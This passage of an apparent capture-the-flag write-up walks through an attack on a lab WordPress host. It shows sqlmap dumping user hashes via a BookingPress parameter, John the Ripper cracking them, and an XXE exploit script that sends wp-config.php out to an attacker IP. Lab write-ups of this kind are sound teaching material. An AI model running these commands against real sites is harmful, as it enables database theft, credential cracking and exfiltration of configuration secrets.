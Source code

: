 To make it more visible we can use this command instead to get the username and hash only by looking into user_login and user_pass columns:

*sqlmap -r bookingpress.req -p total_service -D blog -T wp_users -C user_login,user_pass --batch --dump*

![image](https://user-images.githubusercontent.com/85443537/226911825-bb904bc3-cf60-4910-9583-c5dc56882d7a.png)

We save both hashes into a file called php-hashes.

![image](https://user-images.githubusercontent.com/85443537/226913360-b104a404-9100-4da0-8ad5-8c0c5acf2ee8.png)'


## Cracking the passwords using John The Ripper (john)

Use the following command to crack the passwords.

**Command:**\
*john -w=/usr/share/wordlists/rockyou.txt php-hashes*

**Results:**\
We get the password for the *manager* which is *partylikearockstar*

![image](https://user-images.githubusercontent.com/85443537/226914132-25ec1c4b-0fb8-4d43-9196-748acae9b051.png)

## Logging in

We can now use one of the cracked credentials from previous section and login into the admin panel on metapress.htb/wp-login.

![image](https://user-images.githubusercontent.com/85443537/226914629-85e86a0d-09b4-4c63-b296-37c62f47b3c5.png)


## Exploiting Authenticated XXE Within the Media Library Affecting PHP 8

We can now fully exploit the *Authenticated XXE Within the Media Library Affecting PHP 8* vulnerability that we found previously using wpscan since we are now authenticated.

We find the CVE on exploit-db.com (WordPress 5.7 - 'Media Library' XML External Entity Injection (XXE) (Authenticated)). We then copy and paste the code into a new file and call it *xxe.sh*.

![image](https://user-images.githubusercontent.com/85443537/226915959-e7cc6d8e-34c6-4ae2-8b1f-bab11ef03c71.png)

We then run the bash file (our exploit) we created and request the *wp-config.php* file using the following command:

Usage:

![image](https://user-images.githubusercontent.com/85443537/226917233-11fceba6-b8ba-43cd-a1d3-6bb3554432f9.png)

**Command:**\
*bash xxe.sh manager partylikearockstar ../wp-config.php {Attacker_IP}*

**Results:**\
We find some FTP credentials.
